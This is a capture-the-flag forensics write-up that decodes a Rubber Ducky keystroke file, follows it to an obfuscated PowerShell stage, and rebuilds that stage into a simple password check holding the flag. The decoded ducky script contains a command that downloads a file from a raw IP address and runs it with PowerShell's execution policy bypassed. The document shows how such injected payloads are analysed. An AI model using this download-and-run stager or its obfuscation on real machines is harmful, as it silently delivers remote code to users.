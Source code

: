 ## Duck hunt (Forensics)

### [~$ cd ..](../)

We are given a [strange file](unkown.bin), not recognized by the `file` command. The title of the challenge was quite helpful, and I guessed that it was
probably about Rubber Ducky. I then uploaded the file on https://ducktoolkit.com/decoder, and downloaded the [answer](duck_text.txt):

> ```
>DELAY
>ADELAY
>DELAY
>DELAY
>cd / & mkdir .haxor & cd .haxor & echo (curl -X GET  http://34.240.44.38/payload.txt) > file.PS1 & powershell -ExecutionPolicy ByPass -File file.ps1DELAY
> ```

I then downloaded the file payload.txt, and found an obfuscated powershell [code](payload.ps1).

> ```powershell
> ${;}=+$();
>${=}=${;};
>${+}=++${;};
>${@}=++${;};
>${.}=++${;};
>${[}=++${;};
>\n${]}=++${;};
>${(}=++${;};
>${)}=++${;};
>${&}=++${;};
>${|}=++${;};
>${"}="["+"$(@{})"[${)}]+"$(@{})"["${+}${|}"]+"$(@{})"["${@}${=}"]+"$?"[${+}]+"]";
>${;}="".("$(@{})"["${+}${[}"]+"$(@{})"["${+}${(}"]+"$(@{})"[${=}]+"$(@{})"[${[}]+"$?"[${+}]+"$(@{})"[${.}]);
>${;}="$(@{})"["${+}${[}"]+"$(@{})"[${[}]
>"${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${(}${+}+${"}${&}${@}+${"}${+}${=}${+}+${"}${|}${)}+${"}${+}${=}${=}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${[}${]}+${"}${&}${=}+${"}${+}${+}${[}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${+}${@}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${(}${|}+${"}${+}${+}${=}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${.}${@}+${"}${+}${+}${(}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${.}${@}+${"}${+}${+}${@}+${"}${|}${)}+${"}${+}${+}${]}+${"}${+}${+}${]}+${"}${+}${+}${|}+${"}${+}${+}${+}+${"}${+}${+}${[}+${"}${+}${=}${=}+${"}${.}${|}+${"}${+}${.}+${"}${+}${=}+${"}${)}${.}+${"}${+}${=}${@}+${"}${[}${=}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${@}+${"}${[}${]}+${"}${+}${=}${+}+${"}${+}${+}${.}+${"}${.}${@}+${"}${.}${|}+${"}${)}${=}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${+}${@}${.}+${"}${+}${=}${]}+${"}${+}${+}${]}+${"}${|}${]}+${"}${|}${)}+${"}${|}${]}+${"}${+}${+}${[}+${"}${+}${+}${)}+${"}${|}${&}+${"}${|}${&}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${|}${]}+${"}${+}${=}${=}+${"}${+}${+}${)}+${"}${|}${|}+${"}${+}${=}${)}+${"}${+}${@}${+}+${"}${|}${]}+${"}${+}${+}${)}+${"}${+}${+}${]}+${"}${+}${=}${+}+${"}${+}${=}${=}+${"}${|}${]}+${"}${+}${+}${]}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${=}${+}+${"}${+}${+}${|}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${+}${=}${+}+${"}${.}${.}+${"}${+}${@}${]}+${"}${.}${|}+${"}${[}${+}+${"}${+}${@}${.}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${)}${+}+${"}${+}${+}${+}+${"}${+}${+}${+}+${"}${+}${=}${=}+${"}${.}${@}+${"}${)}${[}+${"}${+}${+}${+}+${"}${|}${&}+${"}${.}${.}+${"}${.}${|}+${"}${]}${|}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${[}+${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${[}+${"}${+}${.}+${"}${+}${=}+${"}${+}${@}${]}"
> ```

I guessed that it was a big concatenation building the flag. It gave me:

![powershell](powershell.png)

or, in Python:

> ```python
>chr(36)+chr(102)+chr(108)+chr(97)+chr(103)+chr(61)+chr(82)+chr(101)+chr(97)+chr(100)+chr(45)+chr(72)+chr(111)+chr(115)+chr(116)+chr(32)+chr(45)+chr(80)+chr(114)+chr(111)+chr(109)+chr(112)+chr(116)+chr(32)+chr(39)+chr(69)+chr(110)+chr(116)+chr(101)+chr(114)+chr(32)+chr(116)+chr(104)+chr(101)+chr(32)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(111)+chr(114)+chr(100)+chr(39)+chr(13)+chr(10)+chr(73)+chr(102)+chr(40)+chr(102)+chr(108)+chr(97)+chr(103)+chr(32)+chr(45)+chr(101)+chr(113)+chr(32)+chr(39)+chr(70)+chr(108)+chr(97)+chr(103)+chr(123)+chr(105)+chr(115)+chr(95)+chr(97)+chr(95)+chr(114)+chr(117)+chr(98)+chr(98)+chr(101)+chr(114)+chr(95)+chr(100)+chr(117)+chr(99)+chr(107)+chr(121)+chr(95)+chr(117)+chr(115)+chr(101)+chr(100)+chr(95)+chr(115)+chr(111)+chr(109)+chr(101)+chr(119)+chr(104)+chr(101)+chr(114)+chr(101)+chr(33)+chr(125)+chr(39)+chr(41)+chr(123)+chr(13)+chr(10)+chr(9)+chr(87)+chr(114)+chr(105)+chr(116)+chr(101)+chr(45)+chr(72)+chr(111)+chr(115)+chr(116)+chr(32)+chr(39)+chr(71)+chr(111)+chr(111)+chr(100)+chr(32)+chr(74)+chr(111)+chr(98)+chr(33)+chr(39)+chr(59)+chr(13)+chr(10)+chr(9)+chr(87)+chr(114)+chr(105)+chr(116)+chr(101)+chr(45)+chr(72)+chr(111)+chr(115)+chr(116)+chr(32)+chr(34)+chr(36)+chr(102)+chr(108)+chr(97)+chr(103)+chr(34)+chr(13)+chr(10)+chr(125)
> ```

And finally, by rebuilding the string:

> ```powershell
>$flag=Read-Host -Prompt 'Enter the password'
>If(flag -eq 'Flag{is_a_rubber_ducky_used_somewhere!}'){
>	Write-Host 'Good Job!';
>	Write-Host "$flag"
>}
> ```


